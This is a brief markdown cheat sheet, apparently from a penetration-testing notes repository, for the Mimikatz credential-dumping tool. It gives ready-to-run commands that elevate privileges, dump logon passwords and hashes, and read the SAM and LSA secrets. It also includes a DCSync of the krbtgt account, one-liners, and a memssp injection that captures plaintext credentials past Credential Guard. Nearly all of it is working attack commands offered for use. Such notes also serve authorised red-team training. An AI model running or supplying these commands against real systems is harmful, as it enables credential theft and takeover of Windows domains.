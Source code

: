 # Mimikatz

```powershell
privilege::debug

token::elevate

sekurlsa::logonpasswords #hashes and plaintext passwords
lsadump::sam
lsadump::sam SystemBkup.hiv SamBkup.hiv
lsadump::dcsync /user:krbtgt
lsadump::lsa /patch #both these dump SAM

#OneLiner
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

.\mimikatz.exe "privilege::debug" "lsadump::sam" "exit"

```

## Credential Guard  misc::memssp
- With Credential Guard enabled, hashes are now in VTL1, not in memory
- Mimikats can register a new SSP with the SSPI, and hopefully force the SSPI to use our SSP for authentiction, forcing it to call the SSP with plaintext creds, which we can intercept
- once injected, wait for a connection, or force a connection
```powershell
privilege::debug
misc::memssp
# saved in a log file, C:\Windows\System32\mimilsa.log
```
